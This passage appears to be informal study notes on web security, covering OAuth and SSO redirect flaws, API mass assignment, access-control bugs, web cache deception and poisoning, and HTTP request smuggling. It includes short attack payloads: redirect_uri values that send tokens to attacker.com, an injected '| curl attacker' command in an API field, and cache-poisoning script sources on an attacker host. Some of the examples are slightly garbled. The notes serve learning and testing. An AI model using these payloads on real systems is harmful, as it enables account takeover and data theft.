  - in session based behind load balancer, sticky session mechanism should be used
- completly statless and ready to be scaled
- extensibillity (friend of friend and permissions)
- no need to make wxtra effort mitgate CSRF attack
- better security? CORS and CSRF are not security issue
- authentication token is commoly saved in `LocalStorage` and `SessionStorage`

### Vulnerabilities

- improper token generation
  - token isnt random or have good randomness
- insecure email verification
- weak passwd reset mechanism
- weak passwd
- insecure magic links
  - magic link has lots of bug
  - one-time login links passwordless 
- 2fa flaws
- OTP (one time passwd) flaws

## OAUTH

- its accsess deligataion
- its an autherization protocol rather than authentication protocol
- using oauth is a pseudo-authentication
- oauth provider gives specific permission to an app to call providers api on behalf of the user
- sth like sign in with google


### Flow

- user click on login provider
  - `client_id`
  - `redirect_uri`
  - `response_type`: `code` is needed for us
  - `scope`: level of access
  - `state`: sth like csrf token


### Vulnarablility, Manipulating redirect_uri parameter

in the oauth flow the provider sends code to the client app legitimate `/callback`. if an attacker can manipulate the `redirect_uri` they can trick the victim to give their code b4 it is used. in providers panel the `redirect_uri` can be defined in diff ways:
- fixed URL - `https://site.com/oauth/callback`
- dynamic url - `https:/site.com/oauth/callback`

there's a checker function to verify the `redirect_uri` it its not safe the provider will be vulnerable. the attack senario is similar to xxs or csrf:



#### Chaning open redirect

if the checker function is safe, open redirect can take our hands. assume `https://site.com/oauth/callback/?.*` is accesptable url pattern. these r valid too:

```code
https://site.com/oauth/callback/../..
https://site.com/oauth/callback/../../test_path
https://site.com/oauth/callback/../../test_path?test_param=test
```
if its ok we can put `attacker.com` and get the token.


## SSO

single sign-on is a way to log in one site and be logged in on others. for example u login to google and u also login to youtube, gmail and etc

there r several methods for SSO, all models use a token to transfer the authentication:

- redirect
- cors
- jsonp
- oauth
- saml

### jsonp call

it means get an object with calling js function. it bypass sop.

look at the flow:


the data must be like this:

```js
myFunc({"name":"john", "carier":"staff"})
```

if we have something like this is jsonp.

look at this code. i make a function and then parse the object:

```js
<script>
function myFunc(myObj) {
  document.getElementById("test").innerHTML = myObj.name;
}
</script>
<script src="https://site.com/js/demo_jsonp.php"></script>
```

### Case 1

imagine we have a two domain those r in same server. so if u login in one u rnt logged in on other.
so how can we fix it.

assume `site.com/attacker` and `blog.attacker.com` are in same server. in this case we call `blog.attacker.com` is **website** and `site.com/attacker` is **provider**

> [!NOTE]
> we know cookies and token are domain based not ip based

for fixing we have two way:

- user login again (not good ux)
- transfer authentication cookie from a domain to another

look at this flow for the second method:

- user visit the website
- click on login btn
- redirect to provider
- log in to provider (if u already logged in this step is skipped)
- redirect back to website by **a token**
  - token should be one time use
  - token should be unique for each user
  - token should not be predictable
- the website take token and verify it by providers api
- if the token is correct the user is authenticated in the website
- the website issues an authentication **token** or **cookie** 

### Case 2

in here we have more than 3 website


1) login in `site.com`
   1) user wants login in `site.com` they click on login btn
   2) the user will be got `301` status code, redirect to `sso.site.com`

2) login in `sso.site.com`
   1)  if the user has already logged in flow is continue:
       1)  if the user send credintials to the sso, if valid, they will be given a token and auth cookie
       2)  `cID` is an auth cookie for `sso.site.com`
   2)  the user will be redirect to the `site.com` the url can be fixed or could have been given in phase 1 by a parameter such as `redirect_url`
   3)  token will be used to auth to `site.com`
3)  continue to login in `site.com`
    1)  the user sends token to the `site.com`
    2)  `site.com` calls the web-service of `sso.site.com` to verify the token
    3)  if the token is valid the auth cookie will be issued
    4)  `sid` is auth cookie for `site.com`
4)  login in `x.site.com`
    1)  the user opens the website
    2)  they will send an HTTP req to `sso.site.com` the request can be XHR or JSONP
        1)  if XHR, the `sso.site.com` should have implemented CORS
        2)  if JSONP, no further implemntation is required there wont be SOP
    3)  if the request has auth cookie (`cID`) a token will be back in the response
    4)  the `x.site.com` calls the web-service of `sso.site.com` to verify the token
    5)  if the token is valid the auth cookie will be issued
    6)  `xID` is auth cookie for `x.site.com`

### Vulnarability

- in phase 1, when use is redirected to `sso.site.com` they might be a parameter such as `redirect_uri`. if this not safe its vulnarable to one click acct take over.
  ```code
  https://sso.site.com/auth/issue_token?redirect_uri=https://attacker.com/log
  ```
- in phase 1, if 1`redirect_uri` is limited to `*.site.com` an open redirect can be useful
  ```code
  https://sso.site.com/auth/issue_token?redirect_uri=https://sub.site.com/logout?r=https://attacker.com/log
  ```
- in phase 4, if the sso works by xhr, the cors should be configured safely. if the checker function is not safe, the sso will be vulnarable to **acct takeover**. the attacker will trick user to open the malicious website and steal their token.
- in phase 4, if the sso works by xhr and the cors is configured safely (`*.site.com`) if any xss is found on any subdomain, the sso will be vulnarable to **acct takeover**. the attacker will trick the user to open the malicious website (`xss.site.com`) and steal ther token.
- in the phase 4, if the sso works by josnp and the js object is accessible any other cross site, the sso will be vulnarable to **acct takeover**. the attcaker will trick the user to open malicious website and steal their token.


## API

### mass assignment

mass assignment vulnarablility occurs when a user is able to **initialize** or **overwrite** server-side **variable** for which **are not intended** by the app.
have look on these codes:
```java
public class User {
  private String userid;
  private String password;
  private String email;
  private boolean isAdmin;

  // Getters and Setters
}
```
the code behind to add user is:
```java
@RequestMapping(value="addUser", mehtod=RequestMethod.POST)
public String submit(User user) {
  userService.add(user);
  return "success";
}
```
the http request:
```http
POST /addUser
...
userid=ljfaq2eq&password=hashedpass&email=test@test.com&isAdmin=True
```
if someon add `isAdmin=true` it can make an admin user :WOW:

in mass assignment u should know the name of field and the value. look at the example:
```http
PUT /api/videos/574
...
{"name": "my_video", "format": "mp4"}
```
for getting users videos:
```http
GET /api/my_videos
...
{
  [
    {"name": "name", "format": "m4a", "params": null},
    {"name": "name", "format": "m4a", "params": "-v codec h264"},
  ]
}
```
with finding one of **params** and its **value** we can use it for our attack for example sth like this for OOB.
```http
PUT /api/videos/574
...
{"name": "a", "format": "mp4", "params": "-v codec h264 | curl attacker"}
```

> [!IMPORTANT]
> it doesnt have any way to get fields. u should search to find :)


### Vulnarablilities

- mass assignment
- broken object level authorization
  ```http
  /shops/{shopID}/data.json
  {"id": 2} -> {"id": [2]}
  {"id": 2} -> {"id": {"id": 2}}
  {"id": 2} -> {"id": 1, "id": 2}
  {"id": 2} -> {"id": *}
  ```
- broken function leve authoriztion
  ```http
  /api/v1/users/me      -> /api/v1/users/all
  /api/v3/login         -> /api/[FUZZ]/[FUZZ]
  GET /api/v1/users/433 -> POST / PUT / DELETE /api/v1/usres/433
  ```
- broken user authentication
  ```http
  /api/system/verification-codes/{smsToken}
  ```
- security misconfiguration - different content types
  ```http
  Content-Type -> application/xml
  ```
- security misconfiguration - cookie instead of token
  ```http
  (Web) site.com/panel/changePassword -> CSRF Token + Authentication Cookie
  (Mobile) site.com/api/v2/changePassword -> Authentication Token

  (Attack) Check if Cookie works on site/api/v2/changePassword, there will be CSRF
  ```

## Cache

cdn is a system of distributed servers that deliver web content to a user based on geo location, the origin of the web page and the content delivery server itself. its provided for fast delivary of web. a primary feature of cdn service is caching.

- what is cache? its a copy of data that is saved for future requests.
  ```code
  client <---> cdn <---> upstram
  client <---> cdn       upstram
  ```
- cache can occur in various places such as dns, browsers, or servers
- a cache server is reverse proxy that stores data
- but how does the cache server decide whether to send the req to the upstream or not? this decision comes from the cache key (`https|GET|example.com|/news/show.php?id=1`)
  ```code
  GET /news/show.php?id=1 HTTP/1.1
  Host: example.com
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Referer: <https://example.com>
  Cookie: lang=de;
  Connection: close
  ```
- in the request above cookie is an **unKeyed** input, so if the request is cached other users will see the news in German
- if the request hasnt been cached, the server responds with a `miss` header; ow, it responds with a `hit` header
- the `vary` header tells the cache server to key extra input. hw many cdns and cache servers deny this header
- there r several headers which prevent the cache server form storing responses, including `no-cache`, `max-age=0`, `private` and `no-store`.

### Cache Deception

the attacker causes the cache server to store swome sensitive content belongong to another user and the attacker then retrives thiss content from the cache

> [!note]
> [this](https://omergil.blogspot.com/2017/02/web-cache-deception-attack.html) is the first attack, and [this](https://blog.cloudflare.com/understanding-our-cache-and-the-web-cache-deception-attack/) is cloudflare article.

the attack:
```code
normal -> https://www.example.com/account.php # loads the user's information
victim -> https://www.example.com/account.php/sth.css # information is cached (MISS)
attacker -> https://www.example.com/account.php/sth.css # gets victim's information (HIT)
```
behind the scene:
case 1 -> `/profile/something.css`
```python
"""mysite URL Configuration

[...]
"""
from django.contrib import admin
from django.urls import path

urlpatterns = [
  path('^profile/', admin.site.urls)
]
```
case 2 -> `/profile.css`
```python
"""mysite URL Configuration

[...]
"""
from django.contrib import admin
from django.urls import path

urlpatterns = [
  path('^profile', admin.site.urls)
]
```

> [!tip]
> use *Param Miner* extention

attack scenario:
- giving the malicious link to a victim and tricks to open
- the victim opens the link their sensitive info will be cached (already unknown url by attacker)
- the attacker will open the link capture the data

### Detection

- checking if the target is behind cdn or not (find static resource)
- look for apis which returns sensitvie info
- try to manipulate request to force the cdn to chache it (make it look static)
- each cdn provider has some extensions to cache
- sometimes there is no obvious documention read write-ups to collect
  ```code
  jpg,jpeg,png,gif,webp,bmp,ico,css,js,pdf,doc,docx,xls,xlsx,ppt,pptx,mp3,mp4,m4a,m4v,ogg,webm,flv,swf,woff,woff2,eot,ttf,otf,zip,tar,gz,tgz,rar
  ```
- bypasses? `.css` blocked? try with `%2ecss` & `/;test.css` & `/!test.css` & `/.css`
  ```code
  /backend-api/conversations%0A%0D-testtest.css
  /api/auth/%0A%0D%09session.css
  ```


### Web cache poisoning

the attacker causes the app to store some mailcious content in the cache server and this content is served from the cache to other app users.
the flow is to identify **unKeyed input** which **affects app** for example reflects in the page so an XSS can be archived.
simpler -> look for **unKeyed** parameters that **reflects** in the page

example:
```http
GET /news/show.php/id=1 HTTP/1.1
Host: example.com
Connection: close

HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: max-age=3000
Age: 0
X-Cache: miss
Connection: close
Content-Length: 10941

...
<script src='//site.com/static/js/news.js'></script>
...
```

Attack:
```http
GET /news/show.php/id=2 HTTP/1.1
Host: example.com
Connection: close

HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: max-age=3000
Age: 0
X-Cache: miss
Connection: close
Content-Length: 10941

...
<script src='//attackerr.com/static/js/news.js'></script>
...
```

victim:
```http
GET /news/show.php/id=2 HTTP/1.1
Host: example.com
X-Forwarded-Host: attacker.com
Connection: close

HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: max-age=3000
Age: 0
X-Cache: miss
Connection: close
Content-Length: 10941

...
<script src='//site.com/static/js/news.js'></script>
...
```

#### methodology
- identify if the app uses cache server or not (optional)
- scan various req by [*Param Miner*](https://portswigger.net/bappstore/17d2949a985c4b7ca092728dba871943) the manually an **unKeyed input**
- scan various req manually and look for Cookie reflection then manually work on it

## Smuggling

### HTTP Protocol

- HTTP 1.0 -> every http req needs to establish a new TCP connection
- HTTP 1.1 -> **Keep-Alive** and **Pipline** were added

**Keep-Alive**: its an http header `Connection: Keep-Alive` thell the server do not close the tcp conncetion after receiving http req:
```bash
curl --keepalive-time 10 http://test.com/path1 http://test.com/path2
```
**Pipline**: the client can send multiple http req without waiting for the rsp. the server follows first in first-out mechanism
```bash
echo -en "GET /paht1 HTTP/1.1\r\nhost: test.com\r\n\r\nGET /path2 HTTP/1.1\r\nhost: test.com\r\n\r\n" | nc test.com 80
```

**Transfer-Encoding**: is a field designed to support a secure transmission of binary data:
```code
chunked | compress | deflate | gzip | identity
```

**Chunked Transfer encoding**: the chunked transfer encoding wraps the payload body in order to transfer it as a series of chunks:

```http
POST /xxx HTTP/1.1
Host: xxx
Content-Type: text/plain
Content-Length: 19

wikipedia in chunks
```

in chunks:

```http
POST /xxx HTTP/1.1
Host: xxx
Content-Type: text/plain
Transfer-Encoding: chunked

4\r\n
wiki\r\n
5\r\n
pedia\r\n
a\r\n
 in chunks\r\n
 0\r\n
 \r\n
```

### Smuggling

the connection between front and backend is not using pipline or even `keep-alive`. hw the backend **supports** both. fact:
- the reverse proxy may use `keep-alive` with the backend
- the reverse proxy is quite certainly not using pipline with the backend

so what is http smuggling attack?
- using the difference in http message **parsing** between **front and backend server** to **embed another http req** in a normal http req to **smuggle it**

what the nodes see:
- front server: a normal http req which should be sent to backend
- backend: two http req as pipline

what is danger here? the second http req remains in **request buffer in backend server** and used as a prefix of the **next http request**

- **CL.TE**: frontend use `Content-Length` backend use `Transfer-Encoding`
- - **TE.CL**: frontend use `Transfer-Encoding` backend use `Content-Length`
- - **CL.TE**: both use `Transfer-Encoding`. but have obfuscation in frontend somthing like `Transfer-Encoding: ;chunked`

> [!tip]
> use burpsuite *HTTP Request Smuggler* extention
